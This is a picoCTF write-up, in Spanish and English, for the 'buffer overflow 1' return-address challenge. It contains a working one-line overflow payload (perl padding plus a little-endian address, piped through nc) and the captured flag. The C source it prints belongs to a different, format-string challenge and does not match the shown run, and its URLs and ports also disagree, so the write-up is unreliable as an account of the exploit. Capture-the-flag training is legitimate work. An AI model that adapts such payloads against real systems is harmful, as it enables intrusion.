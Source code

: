 # buffer overflow 1

## Descripción

Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/186/vuln).You can view source [here](https://artifacts.picoctf.net/c/186/vuln.c). And connect with it using `nc saturn.picoctf.net 55266`

## Pistas

1.- Make sure you consider big Endian vs small Endian.

2.- Changing the address of the return pointer can call different functions.

## Solución

```
┌──(kali㉿kali)-[~/picoctf/binaryexplotation/bufferoverflow1]
└─$ wget https://artifacts.picoctf.net/c/91/vuln   
--2023-05-16 14:18:30--  https://artifacts.picoctf.net/c/91/vuln
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 18.160.124.38, 18.160.124.108, 18.160.124.119, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|18.160.124.38|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15876 (16K) [application/octet-stream]
Saving to: ‘vuln’

vuln                                     100%[===============================================================================>]  15.50K  --.-KB/s    in 0s      

2023-05-16 14:18:41 (123 MB/s) - ‘vuln’ saved [15876/15876]

                                                                                                                                                                 
┌──(kali㉿kali)-[~/picoctf/binaryexplotation/bufferoverflow1]
└─$ wget https://artifacts.picoctf.net/c/91/vuln.c
--2023-05-16 14:18:54--  https://artifacts.picoctf.net/c/91/vuln.c

Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 18.160.124.119, 18.160.124.34, 18.160.124.108, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|18.160.124.119|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 947 [application/octet-stream]
Saving to: ‘vuln.c’

vuln.c                                   100%[===============================================================================>]     947  --.-KB/s    in 0s      

2023-05-16 14:19:03 (17.1 MB/s) - ‘vuln.c’ saved [947/947]

┌──(kali㉿kali)-[~/picoctf/binaryexplotation/bufferoverflow1]
└─$ nano vuln.c 

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

┌──(kali㉿kali)-[~/picoctf/binaryexplotation/bufferoverflow1]
└─$ (perl -e 'print "A"x44 . "\xf6\x91\x04\x08";'; echo) | nc saturn.picoctf.net 55531
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_a8284f4f} 
```

## Bandera

picoCTF{addr3ss3s_ar3_3asy_a8284f4f}

## Notas adicionales



## Referencias
- https://artifacts.picoctf.net/c/186/vuln
- https://artifacts.picoctf.net/c/186/vuln.c